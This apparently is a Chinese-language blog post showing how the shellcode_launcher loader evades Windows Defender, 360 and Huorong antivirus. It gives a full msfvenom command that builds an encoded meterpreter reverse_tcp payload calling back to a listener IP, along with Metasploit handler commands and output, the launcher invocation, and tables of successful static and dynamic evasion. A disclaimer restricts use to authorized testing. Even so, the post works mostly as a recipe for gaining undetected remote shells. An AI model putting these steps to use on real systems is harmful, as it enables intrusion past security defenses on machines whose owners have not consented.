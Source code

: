 # 老树开新花之shellcode_launcher免杀Windows Defender


# 1. 说明
本文的所有技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他，请在24小时内删除工具文件！！！
​

未经本人同意，禁止转载！
​

# 2. 免杀效果

2.1 **静态免杀**

| 杀软\免杀效果 | 虚拟机环境：Windows 10 | 虚拟机环境：Windows 7 | 虚拟机环境：Windows server 2019 | 最新测试时间 |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版
（关闭自动发送可疑样本） | ✅ | 未测 | ✅ | 2022.01.16 |
| 联网360最新版 | ✅ | ✅ | 未测 | 2022.01.16 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.16 |



2.2 **动态免杀效果（指的是可执行命令）**



| 杀软\免杀效果 | 虚拟机环境：Windows 10 | 虚拟机环境：Windows 7 | 虚拟机环境：Windows server 2019 | 最新测试时间 |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版
（关闭自动发送可疑样本） | ✅ | 未测 | ✅ | 2022.01.16 |
| 联网360最新版 | ✅ | ✅ | 未测 | 2022.01.16 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.16 |



# 3. 使用方法

## 3.1 生成shellcode


首先用`Msfvenom`生成`raw`格式的`shellcode`，当前使用了`shikata_ga_na`编码模块：
生成的监听机器为`mac`，ip为`10.211.55.2`，端口：`1234`
```python
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=1234  -f raw -o shellcode.raw
```


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624029949030-29b5ec73-29f9-4dd5-bbb5-9df94dfc7d5c.png)


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254398164-01112f0c-11e8-4120-b0ec-a2688a793f5f.png)



`攻击机`上开启`msf`进行监听：


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254739820-a3e5c5f4-96fb-4a1e-bf05-ca5490f232f1.png)


```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.211.55.2
LHOST => 10.211.55.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.211.55.2:1234
```


然后执行`shellcode_launcher`加载器：
​

`shellcode_launcher.exe -i shellcode.raw`




![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254817035-52bf769c-f47c-4e17-aa8c-f2a3d5522c2b.png)


此时`mac`收到会话，并且可以正常执行命令：


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254854246-23fcff1e-1e3f-479e-9ffe-6c336e9ec58c.png)




## 3.2 **Bypass 火绒**
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642267625868-5d78bf6e-2fc1-4b85-a3e5-608d53f34975.png)


## 3.4 Bypass Win Defender & 360


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642267849841-c2806bda-7b40-4cef-8e0a-dc3bee308355.png)




# 4. 总结
## 4.1 免杀情况

直接整理为图片吧：
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642276998283-fefa0675-7c6c-4d40-9002-0a55f09f6d29.png)






## 4.2 缺点


在本文中，基本没有对作者的源代码进行分析，这里主要是因为篇幅太长，不适合进一步分析，其实可以在作者的基础上延伸一些更加好的方法，本文免杀中存在待优化的问题：

1. 使用`msfvenom`生成的`shellcode`会被一部分杀软标记，这些东西其实深入探究源码之后，去除特征并不算难解决。
1. 在这里看到静态免杀还是比较容易的，但是如果是执行命令等动态操作，基本上都会被优秀的杀软识别，所以在免杀上过动态检测才是研究免杀的关键。



本文在写文章的时候，可能还存在一定的问题，希望各位师傅能够批评指正，不胜感激！
​



